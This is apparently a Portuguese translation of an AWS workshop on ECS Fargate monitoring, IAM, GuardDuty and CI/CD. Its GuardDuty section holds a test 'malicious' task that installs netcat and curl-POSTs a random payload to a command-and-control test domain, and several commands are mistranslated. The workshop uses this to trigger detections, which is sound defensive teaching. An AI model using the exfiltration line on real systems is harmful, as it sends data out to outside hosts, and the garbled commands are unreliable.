Neste laboratório, primeiro verificaremos se o Container Insights
está ativado no cluster do Amazon ECS. Se o Container Insight não
estiver ativado, usaremos a CLI da AWS para ativar o Container Insights
para o CloudWatch.

Verifique o status do Container Insights para o cluster do ECS
filtrando a saída da CLI do AWS de <a
href="https://docs.aws.amazon.com/AmazonECS/latest/APIReference/API_DescribeClusters.html">describe-clusters</a>.
A saída da consulta da CLI do AWS retornaria o status do Container
Insight para indicar se ele está ativado ou desativado para o cluster do
ECS.

aws ecs describe-clusters --clusters retail-store-ecs-cluster
--include SETTINGS --query 'clusters[*].settings'

Caso o Container Insight <strong>não</strong> esteja
<strong>ativado</strong>, você usará o seguinte comando da CLI da AWS
para ativar o Container Insights para o CloudWatch.

aws ecs update-cluster-settings --cluster retail-store-ecs-cluster
--settings name=containerInsights,value=enabled

Você deve receber a seguinte saída na linha de comando.

{

"cluster": {

"clusterArn":
"arn:aws:ecs:us-west-2:XXXXXXXXXX:cluster/retail-store-ecs-cluster",

"clusterName": "retail-store-ecs-cluster",

"status": "ACTIVE",

"registeredContainerInstancesCount": 0,

"runningTasksCount": 0,

"pendingTasksCount": 0,

"activeServicesCount": 0,

"Statistics": [],

"tags": [],

"settings": [

{

"name": "containerInsights",

"value": "enabled"

}

],

"capacityProviders": [],

"defaultCapacityProviderStrategy": [],

"attachments": []

}

}

Métricas do Container Insights

O CloudWatch Container Insights reúne métricas e registros de seus
aplicativos e microsserviços em contêineres. Ele usa um agente
CloudWatch em contêiner para descobrir e coletar dados de desempenho de
todos os contêineres em execução em um cluster. Esses dados são usados
para gerar métricas agregadas nos níveis de cluster, serviço e tarefa,
incluindo métricas de utilização de recursos para CPU, memória, disco e
rede.

Quando precisar de estatísticas regulares sobre dados agregados ao
longo do tempo, opte por métricas em vez de registros. As métricas são
preferíveis para a criação de alarmes ou gráficos de painel.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability/container-insights/100-container-insights-metric#explore-container-insights-metrics"><strong>Explore
as métricas do Container Insights</strong></a>

Para explorar as métricas, primeiro abra o console do CloudWatch
Container Insights:

<a
href="https://console.aws.amazon.com/cloudwatch/home#container-insights:infrastructure">Abra
o console do Amazon CloudWatch</a>

Selecione <strong>Service: ECS</strong> no menu suspenso Serviço e
<strong>Monitoramento de desempenho</strong> no segundo menu suspenso na
parte superior do console do CloudWatch e escolha o
<strong>retail-store-ecs-cluster</strong>. E, por último, altere
<strong>o cluster ECS</strong> para <strong>Serviços ECS</strong>.



Você pode observar a <strong>utilização da CPU</strong>, <strong>a
utilização da memória</strong>, a <strong>rede RX/TX</strong>, <strong>a
utilização do armazenamento efêmero</strong> etc. Essas principais
métricas e painéis automatizados são gerados automaticamente pelo
CloudWatch Container Insights com base no cluster
<strong>retail-store-ecs-cluster</strong>. No entanto, como essas
métricas também estão disponíveis no CloudWatch Metrics, elas também
podem ser utilizadas para criar painéis personalizados.

As métricas do Amazon ECS Container Insights estão no namespace
ECS/ContainerInsights. Para se aprofundar em cada métrica em detalhes,
confira o link <a
href="https://docs.aws.amazon.com/AmazonCloudWatch/latest/monitoring/Container-Insights-metrics-ECS.html">aqui</a>
.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability/container-insights/100-container-insights-metric#explore-application&#39;s-visual-map"><strong>Explore
o mapa visual do aplicativo</strong></a>

No menu superior direito, clique em <strong>View in maps (Exibir em
mapas</strong>) para ver uma representação gráfica dos recursos do ECS e
a relação entre eles.



Se você passar o mouse sobre um dos recursos, poderá ver mais
detalhes, como CPU, utilização de memória, tráfego de rede e utilização
de disco.

 
Explore os registros do CloudWatch

Vamos analisar os logs dos aplicativos do cluster da loja de varejo,
bem como verificar os logs relacionados ao desempenho desse cluster.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability/container-insights/200-container-insights-logs#explore-application-log"><strong>Explorar
o registro de aplicativos</strong></a>

Definimos as configurações de registro para o serviço de contêiner da
interface do usuário na <a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic/200-task-definition/">seção
de definição de tarefas do ECS</a> da seguinte forma. Usamos o driver
awslogs padrão para coletar logs do contêiner e do <strong>grupo de
logs</strong>, que representa um grupo de fluxos de logs que
compartilham as mesmas configurações de retenção, monitoramento e
controle de acesso.

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

Navegue até o menu <strong>Grupos de registros</strong> no
<strong>CloudWatch</strong>. Procure o grupo de registros
<strong>retail-store-ecs-tasks</strong> e clique nele para visualizar os
fluxos de registros relacionados à interface do usuário e ao catálogo,
conforme mostrado abaixo.



Um <strong>fluxo de logs</strong> compreende uma série de eventos de
log originados da mesma fonte. Cada fonte distinta de logs no CloudWatch
Logs constitui seu próprio fluxo de logs.

Vá para o <strong>Logs Insights</strong> para analisar os dados de
registro de aplicativos com o CloudWatch Logs Insights. Selecione
<strong>retail-store-ecs-tasks</strong> para o grupo de registros e
execute a seguinte consulta. Como resultado, você pode recuperar os logs
relacionados ao serviço de IU. E ele será exibido como um gráfico de
barras de eventos de log nesse grupo de logs ao longo do tempo.

campos @timestamp, @logStream, @message

| Filtrar @logStream como /ui-service/

| sort @timestamp desc

| Limite 10

Expanda para verificar as orientações e os resultados detalhados.

Por meio das ferramentas <em>Campos descobertos</em> e
<em>Consultas</em>, à direita, você pode obter orientação sobre quais
campos existem nos logs e como construir consultas de forma eficaz.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability/container-insights/200-container-insights-logs#explore-operational-log"><strong>Explorar
o registro operacional</strong></a>

Desta vez, analisaremos os logs relacionados ao desempenho do nosso
cluster ECS. Comece selecionando o grupo de logs
/aws/ecs/containerinsights/retail-store-ecs-cluster/performance no
<strong>Log Insights</strong>.

<a
href="https://docs.aws.amazon.com/AmazonCloudWatch/latest/monitoring/Container-Insights-reference-performance-logs-ECS.html">Os
eventos de registro de desempenho do Container Insights</a> para o
Amazon ECS fornecem informações detalhadas sobre as métricas de
desempenho dos contêineres em execução nos clusters do Amazon ECS. Esses
logs incluem dados como utilização da CPU, uso da memória, desempenho do
disco e taxa de transferência da rede, permitindo que os usuários
monitorem e otimizem o desempenho de seus aplicativos em contêineres de
forma eficaz.

Vamos executar a seguinte consulta para resumir o uso da CPU e da
memória do contêiner no cluster.

campos @message

| filtro Type="Container"

| Filtrar @logStream como /FargateTelemetry/

| stats latest(ClusterName) as Cluster, avg(CpuUtilized) as
AvgCpuUtilized, max(CpuUtilized) as PeakCpuUtilized,
ceil(avg(MemoryUtilized)) as AvgMemUtilized, max(MemoryUtilized) as
PeakMemUtilized by ContainerName, TaskDefinitionFamily

| sort ContainerName asc



No caso do Fargate, o provisionamento envolve três estágios:
provisionamento de recursos, carregamento da imagem do contêiner e
ativação. Com a consulta a seguir, você pode descobrir o tempo que leva
para cada tarefa ser provisionada.

campos ServiceName, TaskId, (PullStartedAt - CreatedAt) como
ResourceProvisioning, (PullStoppedAt - PullStartedAt) como
ContainerImageLoading, (StartedAt - PullStoppedAt) como Activation

| filtro Type="Task" e ServiceName="ui"

| sort @timestamp desc

| dedup TaskId

 
Teste de carga de microsserviços ECS

Nesta seção, vamos gerar carga sintética usando o comando stress, que
é uma ferramenta de linha de comando para sistemas operacionais baseados
em Linux para introduzir carga no sistema. Executaremos a tarefa ui e
executaremos o comando stress para permitir o dimensionamento. Em
seguida, veremos as métricas do CloudWatch para ver o efeito do
dimensionamento.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability/container-insights/300-container-insights-load-testing#connect-to-the-ecs-task"><strong>Conectar-se
à tarefa do ECS</strong></a>

Execute o seguinte comando para selecionar uma das tarefas em
execução com o enableExecuteCommand ativado:

ECS_EXEC_TASK_ARN=$(aws ecs list-tasks --cluster
retail-store-ecs-cluster \

--service-name ui --query 'taskArns[]' --output text | \

xargs -n1 aws ecs describe-tasks --cluster retail-store-ecs-cluster
--tasks | \

jq -r '.tasks[] | select(.enableExecuteCommand == true) | .taskArn' |
\

head -n 1)

echo $ECS_EXEC_TASK_ARN

Isso produzirá o ARN da tarefa:

arn:aws:ecs:us-west-2:XXXXXXXXXX:task/retail-store-ecs-cluster/0564778486a846599b8bd6b544e5f6eb

Inicie sua sessão interativa /bin/bash na tarefa em execução.

if [ -z ${ECS_EXEC_TASK_ARN} ]; then echo "ECS_EXEC_TASK_ARN não está
configurado corretamente!"; else

aws ecs execute-command --cluster retail-store-ecs-cluster \

--task $ECS_EXEC_TASK_ARN \

--aplicativo de contêiner \

--interativo \

--command "/bin/bash"

fi

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability/container-insights/300-container-insights-load-testing#scaling-up"><strong>Aumento
de escala</strong></a>

Instale o comando de estresse

dnf install stress -y

Emita o comando abaixo para estressar 10 núcleos de CPU com um tempo
limite de 120 segundos

stress -c 10 --timeout 120

Navegue até a página do console do Container Insights e selecione o
intervalo de tempo para <strong>5 minutos</strong>, conforme mostrado
abaixo:



Na página do console do Container Insights, é possível ver que a
utilização da CPU aumenta à medida que a carga no serviço de interface
do usuário é aumentada.



Encerrar sua sessão:

saída

Segurança

O Amazon ECS Fargate oferece uma maneira sem servidor para executar
aplicativos em contêineres, permitindo que os desenvolvedores se
concentrem em seus aplicativos sem se preocupar com a infraestrutura
subjacente. No entanto, é fundamental garantir a segurança desses
aplicativos. Este guia aborda os principais aspectos de segurança no ECS
Fargate, incluindo isolamento de rede, funções de IAM, gerenciamento de
segredos e considerações de conformidade.

Modelo de responsabilidade compartilhada

A segurança e a conformidade de um serviço gerenciado como o Amazon
ECS são uma responsabilidade compartilhada entre você e a AWS. De modo
geral, a AWS é responsável pela segurança "da" nuvem, enquanto você, o
cliente, é responsável pela segurança "na" nuvem. O AWS é responsável
pelo gerenciamento do plano de controle do Amazon ECS, incluindo a
infraestrutura necessária para fornecer um serviço seguro e confiável. E
você é o principal responsável pelos tópicos deste guia. Isso inclui
segurança de dados, rede e tempo de execução, bem como registro e
monitoramento.



Com relação à segurança da infraestrutura, a AWS assume mais
responsabilidade pelos recursos do AWS Fargate do que por outras
instâncias autogerenciadas. Com o Fargate, o AWS gerencia a segurança da
instância subjacente na nuvem e o tempo de execução que é usado para
executar suas tarefas. O Fargate também dimensiona automaticamente sua
infraestrutura em seu nome.

 
Funções de IAM

Suas tarefas do Amazon ECS podem ter uma função de IAM associada a
elas. As permissões concedidas na função IAM são assumidas pelos
contêineres em execução na tarefa. Essa função permite que o código do
seu aplicativo (no contêiner) use outros serviços do AWS.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/70-security/iam-roles#task-execution-role"><strong>Função
de execução de tarefas</strong></a>

A função de execução de tarefa é usada para conceder ao agente de
contêiner do Amazon ECS permissão para chamar ações específicas da API
do AWS em seu nome. Por exemplo, quando você usa o AWS Fargate, o
Fargate precisa de uma função de IAM que lhe permita extrair imagens do
Amazon ECR e gravar registros no CloudWatch Logs. Uma função de IAM
também é necessária quando uma tarefa faz referência a um segredo
armazenado no AWS Secrets Manager, como um segredo de extração de
imagem.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/70-security/iam-roles#task-iam-role"><strong>Tarefa
Função IAM</strong></a>

Essa função permite que o código do seu aplicativo (no contêiner) use
outros serviços do AWS. Recomendamos que você atribua uma função de IAM
a uma tarefa. Sua função pode ser diferenciada da função da instância do
Amazon EC2 em que está sendo executada. A atribuição de uma função a
cada tarefa está alinhada com o princípio do acesso com menos
privilégios e permite maior controle granular sobre ações e
recursos.

Ao atribuir funções de IAM para uma tarefa, você deve usar a seguinte
política de confiança para que cada uma das suas tarefas possa assumir
uma função de IAM diferente daquela usada pela sua instância do EC2.
Dessa forma, sua tarefa não herda a função de sua instância do EC2.

{

"Version": "2012-10-17",

"Statement": [

{

"Sid": "",

"Effect": "Allow",

"Principal": {

"Service": "ecs-tasks.amazonaws.com"

},

"Action": "sts:AssumeRole"

}

]

}

Criar serviço de carrinho

Nesta seção, apresentaremos o microsserviço Carts. Esse componente
cria uma API separada para gerenciar os carrinhos de compras dos
usuários e armazena seus dados em uma tabela do Amazon DynamoDB.

Crie a definição de tarefa do ECS para o <strong>serviço
Carts</strong>.

cat &lt;&lt; EOF &gt; retail-store-ecs-carts-taskdef.json

{

"family": "retail-store-ecs-carts",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-cart:0.8.0",

"portMappings": [

{

"name": "application",

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp",

"appProtocol": "http"

}

],

"essential": true,

"environment": [

{

"name": "CARTS_DYNAMODB_TABLENAME",

"value": "retail-store-ecs-carts"

},

{

"name": "SPRING_PROFILES_ACTIVE",

"value": "dynamodb"

}

],

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "carts-service"

}

}

}

]

}

EOF

aws ecs register-task-definition --cli-input-json
file://retail-store-ecs-carts-taskdef.json

Observe que a definição da tarefa inclui o valor taskRoleArn que
especifica uma função IAM existente. Daremos uma olhada mais detalhada
nessa função mais tarde.

Em seguida, crie o serviço ECS de carrinhos:

aws ecs create-service \

--cluster retail-store-ecs-cluster \

--service-name carts \

--task-definition retail-store-ecs-carts \

--desired-count 1 \

--launch-type FARGATE \

--network-configuration
"awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1}, ${PRIVATE_SUBNET2}],
securityGroups=[$CART_SG_ID],assignPublicIp=DISABLED}" \

--service-connect-configuration '{

"enabled": true,

"namespace": "retailstore.local",

"services": [

{

"portName": "application",

"discoveryName": "carts",

"clientAliases": [

{

"port": 80,

"dnsName": "carts"

}

]

}

]

}'

Abra o console do ECS e navegue até o serviço Carts:

<a
href="https://console.aws.amazon.com/ecs/v2/clusters/retail-store-ecs-cluster/services/carts/tasks">Abra
o console do Amazon ECS</a>

Depois de alguns minutos, você perceberá que o status de implantação
do serviço Carts ainda está <strong>em andamento</strong>. Defina o
campo <strong>Filter desired status</strong> como
<strong>Stopped</strong> e inspecione uma das tarefas com falha.



Selecione a guia <strong>Logs</strong> e você verá os logs do
contêiner:



Haverá uma entrada como esta:

User:
arn:aws:sts::123456789012:assumed-role/retailStoreEcsTaskRole/172891fb75674ba998f05e9fe855fc74

não está autorizado a executar: dynamodb:Query on resource:
arn:aws:dynamodb:us-west-2:123456789012:table/retail-store-ecs-carts/index/idx_global_customerId

porque nenhuma política baseada em identidade permite a ação
dynamodb:Query (Service: DynamoDb, Status Code: 400, Request ID:

RKKLB2QB1277EC0JLVTJUJD207VV4KQNSO5AEMVJF66Q9ASUAAJG)

Isso indica que a tarefa não tem as permissões IAM corretas para
acessar a tabela do DynamoDB. Você pode abrir a função do IAM que
aplicamos ao serviço e verificar suas permissões atuais:

<a
href="https://console.aws.amazon.com/iam/home#/roles/details/retailStoreEcsTaskRole?section=permissions">Abra
o console do AWS IAM</a>

Corrigir as permissões do IAM

Para resolver o problema, é necessária uma função IAM de tarefa do
ECS apropriada. Siga as etapas abaixo para resolver o problema.

Defina uma política com as permissões necessárias para acessar o
DynamoDB:

cat &lt;&lt; EOF &gt; carts-dynamodb-policy.json

{

"Version": "2012-10-17",

"Statement": [

{

"Effect": "Allow",

"Action": [

"dynamodb:*"

],

"Resource": [

"arn:aws:dynamodb:$AWS_REGION:$ACCOUNT_ID:table/*"

]

}

]

}

EOF

Em seguida, use a função que será assumida pelas tarefas do ECS. Essa
função deve incluir uma política de relacionamento de confiança que
permita que o serviço ecs-tasks.amazonaws.com a assuma. Já existe uma
função de tarefa do ECS, retailStoreEcsTaskRole, que tem a seguinte
política de relacionamento de confiança definida:

{

"Version": "2012-10-17",

"Statement": [

{

"Sid": "",

"Effect": "Allow",

"Principal": {

"Service": "ecs-tasks.amazonaws.com"

},

"Action": "sts:AssumeRole"

}

]

}

Agora, anexe a política de acesso do DynamoDB que criamos à função de
tarefa do ECS usada pelo serviço Carts:

aws iam put-role-policy \

--role-name retailStoreEcsTaskRole \

--policy-name CartsDynamoPolicy \

--policy-document file://carts-dynamodb-policy.json

A próxima tarefa do serviço Carts que for iniciada receberá as novas
permissões do IAM e entrará em um estado de
<strong>execução</strong>:

<a
href="https://console.aws.amazon.com/ecs/v2/clusters/retail-store-ecs-cluster/services/carts/tasks">Abra
o console do Amazon ECS</a>



Atualizar o serviço de interface do usuário

A seguinte variável de ambiente precisa ser adicionada à definição da
tarefa da interface do usuário para vincular o serviço da interface do
usuário aos serviços de carrinhos.

"environment": [

{

"name": "ENDPOINTS_CARTS",

"value": "http://carts"

}

]

Atualize a <strong>definição da tarefa da interface do
usuário</strong> com as variáveis de ambiente.

cat &lt;&lt; EOF &gt;
retail-store-ecs-ui-updatedforcart-taskdef.json

{

"family": "retail-store-ecs-ui",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-ui:0.7.0",

"portMappings": [

{

"name": "application",

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp",

"appProtocol": "http"

}

],

"essential": true,

"linuxParameters": {

"initProcessEnabled": true

},

"environment": [

{

"name": "ENDPOINTS_CATALOG",

"value": "http://catalog"

},

{

"name": "ENDPOINTS_ASSETS",

"value": "http://assets"

},

{

"name": "ENDPOINTS_CARTS",

"value": "http://carts"

}

],

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

]

}

EOF

aws ecs register-task-definition --cli-input-json
file://retail-store-ecs-ui-updatedforcart-taskdef.json

Agora, atualize o serviço ECS para usar a revisão mais recente da
definição de tarefa:

aws ecs update-service \

--cluster retail-store-ecs-cluster \

-serviço ui \

--task-definition retail-store-ecs-ui

echo "Aguardando a estabilização do serviço..."

aws ecs wait services-stable --cluster retail-store-ecs-cluster
--services ui

Por fim, podemos verificar o aplicativo em nosso navegador:

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB} ; echo

Cole o resultado do comando em um navegador da Web:

Se os componentes do carrinho tiverem sido atualizados com sucesso
com a política de IAM correta, você verá uma tela como a que está
abaixo:

Para obter mais informações sobre as práticas recomendadas de
segurança do ECS, consulte <a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/security.html">Práticas
recomendadas de segurança do ECS</a>.

Amazon GuardDuty

<strong>Importante</strong>

Você deve ter concluído os seguintes capítulos como pré-requisitos
para este laboratório:

<ul>
<li>
<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic">Fundamentos</a>
</li>
</ul>

O Amazon GuardDuty é um serviço de detecção de ameaças que monitora
continuamente comportamentos maliciosos ou não autorizados em suas
contas e cargas de trabalho do AWS. Ele pode ser útil para o
monitoramento de tempo de execução de clusters e contêineres do ECS para
ajudar a detectar possíveis problemas de segurança ou instâncias
comprometidas.

Neste capítulo, você aprenderá como ativar o GuardDuty e integrá-lo
aos clusters do ECS para monitorar chamadas de API suspeitas, instâncias
potencialmente comprometidas ou comunicações com IPs mal-intencionados
conhecidos.

Ao final deste capítulo, você terá configurado o monitoramento e o
alerta de ameaças em tempo de execução para as cargas de trabalho do ECS
usando o GuardDuty. Você saberá como responder e resolver as descobertas
do GuardDuty por meio do console do AWS.

Ativar GuardDuty

Para ativar o GuardDuty para monitoramento de tempo de execução no
Amazon ECS, crie um detector e ative os recursos necessários. Um
detector do GuardDuty representa o serviço em uma região específica do
AWS, detectando possíveis ameaças à segurança em sua conta.

Primeiro, ative o GuardDuty se ele ainda não estiver ativado. E salve
o ID do detector na variável de ambiente.

aws guardduty create-detector --enable

DETECTOR_ID=$(aws guardduty list-detectors | jq -r
'.DetectorIds[]')

echo ${DETECTOR_ID}

Atualize o detector para ativar o monitoramento do tempo de execução
do ECS.

aws guardduty update-detector \

--detector-id $DETECTOR_ID \

--features
Name=RUNTIME_MONITORING,Status=ENABLED,AdditionalConfiguration="[{Name=ECS_FARGATE_AGENT_MANAGEMENT,Status=ENABLED}]"

Verifique se o monitoramento do tempo de execução do ECS está
ativado. Como resultado, você pode confirmar que o monitoramento do
tempo de execução do ECS está ativado, conforme mostrado abaixo.

aws guardduty get-detector --detector-id $DETECTOR_ID | grep -i ecs
-B 1 -A 3

{

"Name": "ECS_FARGATE_AGENT_MANAGEMENT",

"Status": "ENABLED",

"UpdatedAt": "2024-07-09T09:44:05-04:00"

}

Anexar a política de IAM necessária

O agente GuardDuty é empacotado como uma imagem de contêiner que é
hospedada no Amazon Elastic Container Registry (Amazon ECR). Quando o
agente de segurança Guardduty é ativado, o contêiner do Amazon GuardDuty
se anexa a cada contêiner como um sidecar.

Para que o agente GuardDuty extraia a imagem do contêiner do Amazon
ECR, ele precisa de permissão para acessar o Amazon ECR. Isso é
concedido anexando uma política de IAM à <a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task_execution_IAM_role.html">função
de IAM de execução de tarefas do ECS</a> que permite as ações
ecr:GetAuthorizationToken e ecr:BatchCheckLayerAvailability.

{

"Version": "2012-10-17",

"Statement": [

{

"Action": [

"ecr:GetAuthorizationToken",

"ecr:BatchCheckLayerAvailability",

"ecr:GetDownloadUrlForLayer",

"ecr:BatchGetImage"

],

"Resource": "*",

"Effect": "Allow"

}

]

}

As permissões necessárias já estarão disponíveis se você estiver
usando a política IAM gerenciada pelo
AmazonECSTaskExecutionRolePolicy.

Use o seguinte comando da CLI para verificar se a
AmazonECSTaskExecutionRolePolicy está anexada à função de execução de
tarefas do ECS que estamos usando.

aws iam list-attached-role-policies --role-name
retailStoreEcsTaskExecutionRole

{

"AttachedPolicies": [

{

"PolicyName": "AmazonECSTaskExecutionRolePolicy",

"PolicyArn":
"arn:aws:iam::aws:policy/service-role/AmazonECSTaskExecutionRolePolicy"

}

]

}

Criar uma tarefa maliciosa

Vamos configurar uma tarefa do ECS que executa uma atividade não
autorizada. Essa tarefa consultará um nome de domínio vinculado a um
servidor de comando e controle conhecido. Em seguida, ela executará um
arquivo binário recém-gerado.

cat &lt;&lt; EOF &gt; malicious-guardduty-taskdef.json

{

"family": "malicious-guardduty-task",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "guardduty-test",

"image": "public.ecr.aws/ubuntu/ubuntu:22.04",

"portMappings": [],

"essential": true,

"entryPoint": [

"sh",

"-c"

],

"command": [

"while true; do sleep 30;apt update -y;apt install python3 curl gcc
netcat-openbsd g++ sudo zip -y; dd if=/dev/random of=PAYLOAD bs=1024
count=1;curl -X POST -F \"file=@PAYLOAD\" -s --connect-timeout 1
http://c2.guarddutyc2activityb.com/sample.dat &gt; /dev/null; echo
\"done!\";sleep 60; done"

],

"environment": [],

"mountPoints": [],

"volumesFrom": [],

"linuxParameters": {

"capabilities": {

"add": [

"SYS_PTRACE"

],

"drop": []

}

},

"privileged": false,

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "${AWS_REGION}",

"awslogs-stream-prefix": "guardduty"

}

}

}

],

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole"

}

EOF

aws ecs register-task-definition --cli-input-json
file://malicious-guardduty-taskdef.json

Vamos executar a tarefa em nosso cluster.

aws ecs run-task \

--cluster retail-store-ecs-cluster \

--task-definition malicious-guardduty-task:1 \

--launch-type FARGATE \

--network-configuration
"awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1},${PRIVATE_SUBNET2}],assignPublicIp=DISABLED}"

Você pode navegar até o Amazon GuardDuty Console para analisar os
resultados.

<a href="https://console.aws.amazon.com/guardduty/home">Abra o
console do Amazon GuardDuty</a>

Após <strong>cerca de 3 a 5 minutos</strong>, as descobertas, um
alerta de segurança que indica atividade suspeita ou potencialmente
prejudicial detectada em seu ambiente AWS, devem estar visíveis no
Console do Guardduty.



Também podemos dar uma olhada em cada descoberta individualmente.



O GuardDuty fornece insights abrangentes sobre os problemas de
segurança, incluindo informações contextuais cruciais, como detalhes do
cluster, detalhes da tarefa do ECS e especificidades do contêiner. Essa
visibilidade granular permite a identificação precisa da causa raiz. Ele
possui amplos recursos de detecção de ameaças baseadas em IP e nomes de
domínio.

Consulte o <a
href="https://docs.aws.amazon.com/guardduty/latest/ug/findings-runtime-monitoring.html">guia
de descobertas do Amazon GuardDuty</a> para obter a lista completa de
descobertas suportadas e recursos monitorados.

Automação

Neste capítulo, exploraremos como podemos automatizar o processo de
implantação de aplicativos em contêineres no Amazon ECS por meio do AWS
CodePipeline e simplificar nossos processos de implantação, garantindo
lançamentos de software rápidos e confiáveis.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd#aws-codepipeline-with-amazon-ecs"><strong>AWS
CodePipeline com o Amazon ECS</strong></a>

O AWS CodePipeline é um serviço de integração contínua e entrega
contínua (CI/CD) totalmente gerenciado que automatiza as etapas
necessárias para liberar suas alterações de software de forma rápida e
confiável. Ele orquestra as fases de criação, teste e implantação do seu
processo de liberação sempre que houver uma alteração de código, com
base no modelo de liberação que você definir. Essa automação é
fundamental para obter um fornecimento rápido e consistente de recursos
e atualizações, minimizando a intervenção manual e os erros.

No contexto do Amazon Elastic Container Service (ECS), o CodePipeline
permite que você automatize a implantação de aplicativos em contêineres
no Amazon ECS Tasks. Com o CodePipeline, você pode simplificar o
processo de atualização dos seus serviços ECS sempre que forem feitas
alterações no seu aplicativo.

A implantação de software no Amazon ECS envolve quatro estágios
básicos que o CodePipeline pode orquestrar:

<ol type="1">
<li>
<strong>Estágio de origem:</strong> Esse estágio consiste
principalmente na atualização do repositório de código, o CodePipeline
extrai a versão mais recente do código do repositório de código-fonte,
como o GitHub, o AWS CodeCommit ou o Bitbucket. Esse estágio deve
acionar o pipeline sempre que houver uma confirmação no
repositório.
</li>
<li>
<strong>Estágio de compilação:</strong> no estágio de compilação,
o código é compilado e as imagens do Docker são criadas usando serviços
como o AWS CodeBuild. Esse estágio também pode executar testes de
unidade ou análise de código estático para garantir a qualidade da
compilação.
</li>
<li>
<strong>Push de registro:</strong> Depois que as imagens do
Docker são criadas, elas são enviadas com segurança para um registro de
contêineres, como o Amazon Elastic Container Registry (ECR), tornando-as
prontamente disponíveis para implantação. Durante esse estágio, as
imagens podem passar por uma varredura de segurança abrangente para
identificar e mitigar possíveis vulnerabilidades, explorações ou outras
ameaças, garantindo uma implantação robusta e segura.
</li>
<li>
<strong>Etapa de</strong> implantação<strong>:</strong> na etapa
de implantação, o pipeline atualiza o serviço ECS com as novas imagens
do Docker armazenadas no Amazon Elastic Container Registry (ECR). Essa
etapa envolve a atualização da definição de tarefa para fazer referência
às novas versões de imagem e a configuração do serviço ECS para
implantar tarefas usando a definição de tarefa atualizada. Se
necessário, o AWS CodeDeploy pode gerenciar estratégias de implementação
sofisticadas, como implementações blue/green, minimizando o tempo de
inatividade e permitindo reversões contínuas, se necessário.
</li>
</ol>

Neste capítulo, abordaremos:

<ul>
<li>
<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling">Implantação
contínua</a>
</li>
<li>
<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green">(opcional)
Implantação azul/verde</a>
</li>
</ul>

Implantação contínua

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling#ecs-rolling-deployment"><strong>Implementação
contínua do ECS</strong></a>

A implementação contínua refere-se a uma estratégia de implementação
em que uma nova versão do software é implementada gradualmente em um
serviço, garantindo uma transição suave entre as versões antiga e nova,
mantendo a disponibilidade do serviço e minimizando o tempo de
inatividade.

Quando você cria um serviço com o tipo de implantação de atualização
contínua, o Amazon ECS substitui as tarefas existentes por novas. A
configuração da implantação do serviço controla o número de tarefas
